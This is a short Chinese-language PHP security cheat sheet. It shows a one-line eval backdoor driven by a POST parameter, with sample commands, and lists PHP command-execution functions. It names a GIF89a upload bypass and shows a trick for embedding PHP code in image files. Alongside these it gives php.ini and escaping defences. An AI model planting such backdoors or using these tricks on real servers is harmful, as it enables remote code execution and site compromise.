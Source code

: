 ```yaml
---
title: "php"
date: 2016-01-25 14:15
---
```


## 一句话后门

```php
$cmd = $_POST['cmd'];                                                      
eval("$cmd;");

poc:
? cmd=echo phpinfo()  
? cmd=echo exec("ls -l")
```

## 执行系统命令（命令注入攻击）



* shell_exec()

> string shell_exec ( string $cmd )

命令执行的输出。 如果执行过程中发生错误或者进程不产生输出，则返回 NULL。

* system()

> string system ( string $command [, int &$return_var ］)

成功则返回命令输出的结果， 失败则返回 FALSE

* exec() 

> string exec( string $command [, array &$output [, int &$return_var ］)

返回命令执行结果的最后一行内容

* passthru

> void passthru ( string $command [, int &$return_var ］ )

直接将结果输出到游览器,不返回任何值

* popen()

* proc_open()

* `(反撇号)

```
echo `ls -l`;
```



** for security**

* php.ini

```
safe_mode = On      #safe mode
safe_mode_exec_dir = /usr/local/php/bin/    #limit path

disable_functions="eval,phpinfo"
```

* 使用escapeshellcmd()和escapeshellarg()函数阻止用户恶意在系统上执行命令

    + escapeshellcmd()针对的是执行的系统命令

    + escapeshellarg()针对的是执行系
    
## upload

** bypass **

* 文件头+GIF89a



## dangerous functions

* file_get_contents()

> string file_get_contents ( string $filename [, bool $use_include_path = false [, resource $context [, int $offset = -1 [, int $maxlen ]]]] )

支持本地文件，HTTP，FTP

禁用file_get_contents,修改php.ini

```
allow_url_fopen=Off
```

* curl

支持 FTP(S),HTTP(S),TELNET,FILE,DICT,LDAP,GOPHER

install: sudo apt-get install php5-curl. then restart apache


## LDAP注入

[乌云 LDAP注入与防御][5]

[5]: http://drops.wooyun.org/tips/967

## 备注

* 注入php 到图片等

```
echo '<?php phpinfo();?>' >> 1.jpg
```

文件名后缀改为**.php**，就会用php方式解析，执行phpinfo().
